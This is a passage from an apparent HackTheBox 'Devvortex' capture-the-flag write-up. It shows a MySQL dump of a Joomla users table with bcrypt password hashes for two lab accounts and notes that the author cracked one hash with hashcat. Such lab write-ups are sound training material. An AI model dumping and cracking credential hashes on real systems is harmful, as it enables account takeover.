```bash
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-03-30 09:55:10 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)

mysql> exit
exit
Bye

```

![](images/Pasted%20image%2020240330160129.png)

Then, I used hashcat to crack the hash of logan.
